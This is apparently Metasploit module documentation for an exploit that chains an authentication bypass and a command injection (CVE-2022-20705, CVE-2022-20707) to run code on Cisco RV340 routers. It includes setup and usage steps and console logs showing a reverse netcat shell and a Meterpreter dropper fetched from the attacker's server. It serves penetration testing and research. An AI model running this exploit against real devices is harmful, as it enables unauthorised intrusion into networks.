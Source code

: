 ## Vulnerable Application

This module exploits two vulnerabilities, an authentication bypass (CVE-2022-20705) and a command injection vulnerability (CVE-2022-20707),
to execute code on Cisco RV340x Small Business Routers as the `www-data` user. The command injection occurs in the `upload.cgi` script,
where user input is passed to `curl` without any sanitization. Additionally, the `sessionid` session cookie can be abused for a path
traversal vulnerability, which can be used to bypass authentication by checking for a valid file in the session ID field.

Vulnerable up to, and tested against, firmware version 1.0.03.24. Version 1.0.03.26 removes these vulnerabilities.

### Installation

Vulnerable software: https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.24

Log into the modem.  Default IP address is 192.168.1.1 and default credentials
are cisco for username and password.  The `administration` option on the left
side of the web page will take you to a form with a `Manual Upgrade` section.
Leave `File Type: ` on default `Firmware Image` option.  Change `Upgrade From:` option to `PC`.  Press the `Upgrade` button.
Press `Yes` on the message box asking `Are you sure you want to upgrade the firmware right now?`.  Wait for router
reboot to complete.

## Verification Steps

1. Install the vulnerable firmware
2. Start `msfconsole`
3. Do: `use modules/exploits/linux/http/cisco_rv340_lan`
4. Do: `set lhost <listening ip>`
5. Do: `set rhost <target ip>`
6. Do: `exploit`
7. Verify: You see the message "Exploit successfully executed" confirming the exploit completed
8. Verify: You are the "www-data" user using the `id` command

## Options

## Scenarios

### Reverse Netcat Output

Cisco RV340 Router running 1.0.03.24 on ARM architecture

```
msf6 > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf6 exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf6 exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (192.168.1.142:4444 -> 192.168.1.1:55885) at 2023-02-05 10:06:22 -0500
[+] Exploit successfully executed.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
### Meterpreter Linux Dropper

Cisco RV340 Router running 1.0.03.24 on ARM architecture

```
msf6 > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf6 exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf6 exploit(linux/http/cisco_rv340_lan) > set target 1
target => 1
msf6 exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.142:8080/3b2NfBKR0OS
[*] Client 192.168.1.1 (Wget) requested /3b2NfBKR0OS
[*] Sending payload to 192.168.1.1 (Wget)
[*] Sending stage (934728 bytes) to 192.168.1.1
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Meterpreter session 2 opened (192.168.1.142:4444 -> 192.168.1.1:55950) at 2023-02-05 10:12:37 -0500
[*] Server stopped.

meterpreter > shell
Process 11012 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
